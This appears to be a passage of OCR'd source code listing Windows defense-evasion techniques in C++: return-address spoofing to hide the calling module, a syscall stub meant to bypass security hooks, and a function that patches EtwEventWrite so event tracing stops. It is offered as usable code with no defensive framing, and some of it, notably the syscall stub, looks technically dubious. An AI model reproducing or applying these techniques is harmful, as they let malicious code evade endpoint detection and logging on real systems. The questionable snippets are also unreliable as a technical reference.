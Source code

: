### 2. **Return Address Spoofing**
```cpp
// Spoof return addresses on the stack to hide calling module
__declspec(naked) void SpoofedCall(void* function, void* spoofAddress) {
    __asm {
        push ebp
        mov ebp, esp
        push [ebp+12]  // Push spoofed return address
        jmp [ebp+8]    // Jump to target function
    }
}
```

### 3. **Indirect Syscalls**
```cpp
// Use indirect syscalls to avoid syscall hooks
extern "C" NTSTATUS NTAPI NtProtectVirtualMemory(
    HANDLE ProcessHandle,
    PVOID* BaseAddress,
    PSIZE_T RegionSize,
    ULONG NewProtect,
    PULONG OldProtect
) {
    // Get syscall number dynamically
    static DWORD syscallNumber = GetSyscallNumber("NtProtectVirtualMemory");
    
    __asm {
        mov eax, syscallNumber
        mov edx, 0x7FFE0300  // KUSER_SHARED_DATA syscall entry
        call dword ptr [edx]
        retn 0x14
    }
}
```

### 4. **ETW (Event Tracing for Windows) Patching**
```cpp
// Disable ETW to prevent tracing
void DisableETW() {
    HMODULE ntdll = GetModuleHandleA("ntdll.dll");
    if (ntdll) {
        void* EtwEventWrite = GetProcAddress(ntdll, "EtwEventWrite");
        if (EtwEventWrite) {
            DWORD oldProtect;
            VirtualProtect(EtwEventWrite, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
            *(BYTE*)EtwEventWrite = 0xC3; // RET instruction
            VirtualProtect(EtwEventWrite, 1, oldProtect, &oldProtect);
        }
    }
}
```
